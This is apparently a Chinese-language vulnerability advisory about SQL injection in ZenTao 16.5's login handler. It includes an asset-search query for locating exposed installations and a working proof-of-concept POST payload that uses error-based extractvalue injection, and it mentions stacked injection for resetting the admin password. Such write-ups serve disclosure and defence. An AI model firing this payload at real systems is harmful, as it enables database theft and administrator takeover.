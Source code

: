 # 禅道 16.5 router.class.php SQL注入漏洞

## 漏洞描述

禅道 16.5 router.class.php 文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息，危害服务器安全

## 漏洞影响

<a-checkbox checked>禅道 16.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="易软天创-禅道系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1651845742331-80eb4af4-3ecb-465a-b9f4-6b9f211bce3a.png)

`16.5 到 16.5.1 版本`更新了 `framework/base/router.class.php` 文件

![img](/assets/PeiQi-Wiki/img/1651970702476-e791e909-c6ad-4386-a9ed-bd0f93454d92.png)

`account参数`使用了`quote方法`进行过滤SQL语句

![img](/assets/PeiQi-Wiki/img/1651971046505-0dfe20a0-ed9b-4704-a233-fbf1967c0248.png)

可以看到这个方法主要是对字段加转义，所以可以推断 16.5 版本中存在SQL注入, 跟踪调试测试SQL注入

![img](/assets/PeiQi-Wiki/img/1651971584690-5654e6cd-48ca-4f5e-a552-7c6d6648f968.png)

验证POC如下, 其中同样存在堆叠注入，通过SQL语句可修改管理员密码等

```java
POST /user-login.html

account=admin%27+and+%28select+extractvalue%281%2Cconcat%280x7e%2C%28select+user%28%29%29%2C0x7e%29%29%29%23
```

![img](/assets/PeiQi-Wiki/img/1651845951752-a3b596a1-d07e-4283-9373-64f5d4c95f87.png)